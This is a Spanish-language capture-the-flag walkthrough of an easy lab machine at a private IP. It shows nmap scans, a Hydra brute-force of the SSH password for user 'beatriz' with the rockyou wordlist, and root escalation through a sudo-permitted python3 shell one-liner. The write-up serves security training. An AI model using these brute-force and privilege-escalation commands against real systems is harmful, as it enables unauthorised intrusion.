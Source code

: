 ```yaml
---
description: '✍️ Autor: beafn28🔍 Dificultad: Fácil 📅 Fecha de creación: 29/09/2024'
---
```


# Bienvenidos

### 🔍 RECONOCIMIENTO

En primer lugar, tras conectarnos a la máquina, utilizamos el comando:

```bash
ping -c 1 172.17.0.2
```

para verificar la conectividad de red.

<figure><img src="../.gitbook/assets/imagen (12) (1).png" alt=""><figcaption></figcaption></figure>

A continuación, realizamos el comando:

```bash
nmap -sVC -p- -n --min-rate 5000 172.17.0.2
```

para realizar un escaneo de puertos y servicios detallado en la dirección IP.

<figure><img src="../.gitbook/assets/imagen (13) (1).png" alt=""><figcaption></figcaption></figure>

Como podemos observar durante el escaneo que el **puerto 22** perteneciente al **servicio SSH** y el **puerto 80** perteneciente al **servicio HTTP** están abiertos por lo que a continuación se indagará más.

### 🔎 **EXPLORACIÓN**

Se utiliza el comando:

```bash
sudo nmap -sCV -p22,80 -v 172.17.0.2
```

para obtener más información sobre esos puertos específicamente.

<figure><img src="../.gitbook/assets/imagen (14) (1).png" alt=""><figcaption></figcaption></figure>

Seguimos indagando más sobre los puertos y ahora indagamos sobre el **servicio HTTP**. Se ingresó la **dirección IP** en el navegador lo que llevó a que la página web nos da la bienvenida Beatriz a la plataforma [Root Acces](https://rootacc.es/index.php?sid=585994e8f11ab449e8ccbd8e65e13a59). Descubrimos que **Beatriz** puede ser un usuario y tiene sentido ya que es la que crea los CTF.

<figure><img src="../.gitbook/assets/imagen (55).png" alt=""><figcaption></figcaption></figure>

### 🚀 **EXPLOTACIÓN**

Con la información obtenida anteriormente, realizamos el comando:

```bash
hydra -l beatriz -P /usr/share/wordlists/rockyou.txt ssh://172.17.0.2 -t 5
```

que utiliza la herramienta **Hydra** para realizar un ataque de fuerza bruta contra el servicio **SSH** de una máquina con la IP **172.17.0.2**.

<figure><img src="../.gitbook/assets/imagen (18).png" alt=""><figcaption></figcaption></figure>

Al realizar el ataque de fuerza bruta, hemos descubierto la contraseña de **beatriz**. Sabiendo esto, nos conectamos a través de **SSH** al usuario con el comando:

```bash
ssh beatriz@172.17.0.2
```

<figure><img src="../.gitbook/assets/imagen (16).png" alt=""><figcaption></figcaption></figure>

### 🔐 **PRIVILEGIOS**

Al estar dentro y ejecutar:

```bash
whoami
```

aún no somos **root**, por lo que hacemos:

```bash
sudo -l
```

para ver si hay algo para explotar.

<figure><img src="../.gitbook/assets/imagen (19).png" alt=""><figcaption></figcaption></figure>

Se ha identificado que podemos ejecutar `/usr/bin/python3` con permisos de `sudo`. Para escalar privilegios, utilizaremos [GTFObins](https://gtfobins.github.io/gtfobins/python/), que proporciona una lista de comandos que se pueden ejecutar utilizando Python.

Esto nos permitirá aprovechar el entorno de Python para ejecutar código que nos ayude a obtener acceso a niveles más altos de privilegio en el sistema.

```bash
sudo python3 -c 'import os; os.system("/bin/sh")'
```

<figure><img src="../.gitbook/assets/imagen (20).png" alt=""><figcaption></figcaption></figure>

Ya somos **root** por lo que ahora encontraremos la bandera en su directorio.

<figure><img src="../.gitbook/assets/imagen (56).png" alt=""><figcaption></figcaption></figure>

Esta bandera está codificada en base64 la decodificamos con este comando:

```bash
echo "aHR0cHM6Ly9yb290YWNjLmVzCg==" | base64 --decode
```

<figure><img src="../.gitbook/assets/imagen (57).png" alt=""><figcaption></figcaption></figure>

